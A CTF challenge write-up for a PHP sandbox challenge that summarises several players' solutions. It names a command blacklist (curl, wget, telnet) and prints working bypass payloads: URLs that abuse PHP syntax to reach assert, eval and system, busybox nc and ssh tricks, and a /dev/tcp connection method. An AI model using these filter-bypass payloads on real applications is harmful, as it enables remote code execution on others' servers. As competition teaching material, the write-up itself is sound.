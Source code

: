 ![Hall Of Fame](hof.png)
# URL
[l4w.pw/🤔/](http://l4w.pw/🤔/)

# Type
PHP CTF-style challenge.

How to construct command following the rules.

Trick to run weird command or abusing PHP syntax.

I already removed `curl` `wget `telnet`.

# Solution
This challenge came by when I was solving a PHP sandbox challenge which has limited characters/blacklist functions/...I believe my solution was unintended, so wanna introduce to you guys.

I left backstick, to see amazing tricks from you guys.

You should notice there is [INVISIBLE SEPARATOR](https://www.fileformat.info/info/unicode/char/2063/index.htm) at [9th line](https://github.com/l4wio/CTF-challenges-by-me/blob/master/lixi_2018/index.php#L9)

All of them can be found at: [writeup](writeup)

There are serveral solutions:
### Abusing backstick:
* Create a temporary file containing chunks (by using: printf/echo/...)
* Run the file, to connect localhost:8888 (using python or bash with /dev/tcp/...)
* See nyan/orange/kaibro/xassiz sol.(there is one-line sol)
* shout out to nyan for the full details [writeup](writeup/nyan.pdf).


### Abusing ssh / busybox
It ... surprised me 
* ```die(`ssh -v 0 -p 888\%0a8 2>&1`);```
* ```die(`bus\yb\ox nc 0:888\8`);```
* Using `ssh` and blackslash (See `huyphan` sol)


### PHP syntax abusing
By using bitwise `&`, we can make a string following the rule regexp `\w{4}`, then use `{` as a name of variable `${}`, also access array index `$array{index}`
* `http://l4w.pw/%F0%9F%A4%94/?%E2%81%A3=$a=${_GE%d4%26_GE%7f};$a{0}($a{1});&0=assert&1=eval($_GET[2]);&2=echo%20123;`
* Also see kad96/fa_boy/tsu solutions.
* `http://l4w.pw/🤔/index.php?0=system&1=busybox nc 127.0.0.1 8888&%E2%81%A3=$b=_GE;$b{3}=T;$$b{0}($$b{1});` (From tiengiang, looks like he's the first one who found out `busybox` can be used...)

